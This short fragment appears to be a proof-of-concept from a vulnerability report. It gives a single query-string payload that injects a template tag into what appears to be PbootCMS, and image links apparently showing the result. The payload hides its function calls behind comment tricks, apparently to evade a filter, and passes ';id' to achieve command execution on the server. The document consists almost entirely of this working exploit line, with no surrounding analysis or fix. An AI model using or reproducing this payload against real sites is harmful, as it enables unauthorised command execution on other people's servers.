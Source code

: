 poc：

`?snakin=}{pboot:if((get_lg/*-*/())/**/(get_backurl/*-*/()))}{/pboot:if}&backurl=;id`

(img)[https://camo.githubusercontent.com/038c9561fcfc03789a94a453eced386c365d083ef9bde95687400892a9bd12d0/68747470733a2f2f636f736d6f736c696e2e6f73732d636e2d6368656e6764752e616c6979756e63732e636f6d2f696d67322f696d6167652d32303232303532353030333631313933322e706e67]
